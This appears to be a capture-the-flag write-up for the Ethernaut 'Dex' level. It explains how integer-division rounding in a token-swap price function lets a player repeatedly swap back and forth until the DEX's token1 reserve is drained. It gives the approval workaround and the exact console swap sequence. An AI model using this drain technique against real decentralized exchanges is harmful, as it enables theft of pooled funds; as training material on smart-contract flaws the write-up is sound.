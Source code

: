 # Drain 1 of the token and allow contract to report bad price

When we look at the contract, the price of the token is fetch from a math equation written inside the contract function.
```
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```
The equation can be summarized as:

|`sa = p_1 * (d_2/d_1)`|
|-|
|sa = Swap Amount|
|p_1 = player token1 balance|
|d_1 = DEX token1 balance|
|d_2 = DEX token2 balance|

or when you do the opposite:
|`sa = p_2 * (d_1/d_2)`|
|-|
|sa = Swap Amount|
|p_2 = player token2 balance|
|d_1 = DEX token1 balance|
|d_2 = DEX token2 balance|


The vulnerabiltiy is by getting swap price through this method, the division won't calculate to a perfect integer but a fraction. In solidity, division rounds towards zero. For example, `3/2 = 1`.

We can simulate how the balance would go if we swap them.

| DEX | PLAYER |
|-|-|
| TOKEN1 - TOKEN2 | TOKEN1 - TOKEN2 |
| 100 - 100 | 10 - 10 |
| 110 - 90 | 0 - 20 |
| 86 - 110 | 24 - 0 |
| 110 - 80 | 0 - 30 |
| 69 - 110 | 41 - 0 |
| 110 - 45 | 0 - 65 |
| 0 - 90 | 110 - 20 |

The table start out of by swapping 10 token1 to token2 on second row. The outcome is as expected, normal. However when we swap all token2 (20) to token1 we get 24. The ratio of token1 : token2 should be 1 : 1 yet we get 4 extra token. So if we keep on swapping till the end, we would reach a point where one of the DEX token run out of liquidity.

To continue to need to give approval to DEX to swap for us. Under the normal circumstances we would use this function.
```
contract.approve(contract.address, 500)
```

However in this contract, they require `owner != dex` when approving.
```
function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
```

So we need to try other way. By deploying the 'ERC20.sol' contract in remix IDE to token address, we can use 'ERC20.sol' `approve` our instance address and amount we let the DEX to access. After `approve`, use `allowance` function to call the targetted instance address and owner(our address). [link](https://stackoverflow.com/questions/71986811/ethernaut-challenge-lv22-dex-allowance-approval-problem)

After these steps we should be clear to swap. Go back to browser console terminal to get token address:
```
t1 = await contract.token1()
t2 = await contract.token2()
```

Perform the swaps according to table:
```
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

Verify:
```
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```